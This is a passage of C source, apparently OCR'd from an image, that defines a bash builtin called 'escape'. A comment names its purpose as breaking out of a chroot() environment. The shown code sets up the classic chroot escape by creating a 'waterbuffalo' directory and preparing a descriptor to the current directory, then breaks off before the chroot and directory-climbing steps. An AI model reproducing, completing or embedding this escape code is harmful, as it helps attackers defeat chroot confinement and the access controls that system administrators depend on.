 ```C

#define NEED_FCHDIR 1
   
#define TEMP_DIR "waterbuffalo"  

int
escape_builtin (list)
     WORD_LIST *list;
{
  int opt;

  reset_internal_getopt ();
  while ((opt = internal_getopt (list, "")) != -1)
    {
      switch (opt)
	{
	CASE_HELPOPT;
	default:
	  builtin_usage ();
	  return (EX_USAGE);
	}
    }
  list = loptend;
  if (list)
    {
      builtin_usage ();
      return (EX_USAGE);
    }

  /* Break out of a chroot() environment in C */
  int x;            /* Used to move up a directory tree */  
  int done=0;       /* Are we done yet ? */  
#ifdef NEED_FCHDIR  
  int dir_fd;       /* File descriptor to directory */  
#endif  
  struct stat sbuf; /* The stat() buffer */  
   
  /*  
  ** First we create the temporary directory if it doesn't exist  
  */  
  if (stat(TEMP_DIR,&sbuf)<0) {  
    if (errno==ENOENT) {  
      if (mkdir(TEMP_DIR,0755)<0) {  
        fprintf(stderr,"Failed to create %s - %s\n", TEMP_DIR,  
                strerror(errno));  
        exit(1);  
      }  
    } else {  
      fprintf(stderr,"Failed to stat %s - %s\n", TEMP_DIR,  
              strerror(errno));  
      exit(1);  
    }  
  } else if (!S_ISDIR(sbuf.st_mode)) {  
    fprintf(stderr,"Error - %s is not a directory!\n",TEMP_DIR);  
    exit(1);  
  }  
   
#ifdef NEED_FCHDIR  
  /*  
  ** Now we open the current working directory  
  **  
  ** Note: Only required if chroot() changes the calling program's  
  **       working directory to the directory given to chroot().  
```